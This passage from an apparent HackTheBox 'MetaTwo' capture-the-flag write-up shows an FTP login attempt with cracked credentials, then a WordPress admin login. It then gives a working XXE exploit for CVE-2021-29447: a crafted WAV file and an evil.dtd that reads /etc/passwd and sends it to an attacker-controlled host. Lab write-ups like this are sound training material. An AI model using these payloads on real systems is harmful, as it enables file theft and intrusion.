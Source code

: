 So, john was able to crack one hash and was taking too much time to crack another, which I guess was intentionally an uncrackable hash given to us.

So, the cracked hash belonged to the user `manager`.

So, now, I tried to login through `ftp` using creds `manager:` but it didnt work

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ ftp ftp://manager:partylikearockstar@10.10.11.186
Connected to 10.10.11.186.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
331 Password required for manager
530 Login incorrect.
ftp: Login failed
ftp: Can't connect or login to host `10.10.11.186:ftp'
221 Goodbye.
```

So, now, my only option left was try it on the `/wp-login.php` login page.

![meta-9](https://user-images.githubusercontent.com/87711310/218543662-d2364f01-0077-4a19-97d8-344fc792569e.png)

And it worked!!!

Now, there were too many way through which I could upload media and I kind of knew that this was my way in, to obtain a reverse shell through file upload.

Now, I knew the website was running on `Wordpress v5.6.2` so, I decided to search if any vulnerabilities related to this particular version exists

And I found one, the [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/), which has an XXE Vulnerability but requires some type of user access to the admin console.

So, now that we have `manager's` credentials, we need to create two files:
1. `payload.wav` which is a WAVE file through which you can inject your payload inside the `iXML` metatag.
2. `evil.dtd` file.

So, to create a `payload.wav` file,

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.27:8888/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

For `evil.dtd` file, 

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.27:8888/?p=%file;'>" >
```

Here, I decided to use `/etc/passwd` to check if the exploit works or not.

Now, that I've created two files, I started a python server in the same directory where these two files were stored.
